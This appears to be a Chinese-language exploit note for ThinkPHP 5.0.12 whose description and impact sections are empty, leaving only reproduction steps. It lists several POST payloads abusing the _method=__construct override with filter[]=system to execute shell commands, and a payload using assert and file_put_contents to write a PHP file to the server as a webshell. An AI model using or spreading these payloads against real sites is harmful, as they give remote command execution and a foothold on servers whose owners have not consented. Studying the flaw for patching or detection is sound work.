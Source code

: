 Thinkphp 5.0.12
===============

一、漏洞简介
------------

二、漏洞影响
------------

三、复现过程
------------

> www.0-sec.org/?s=index/index

    post

    s=whoami&_method=__construct&method=POST&filter[]=system
    aaaa=whoami&_method=__construct&method=GET&filter[]=system
    _method=__construct&method=GET&filter[]=system&get[]=whoami
    c=system&f=calc&_method=filter

> 写shell

    POST

    s=file_put_contents('zerosec.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
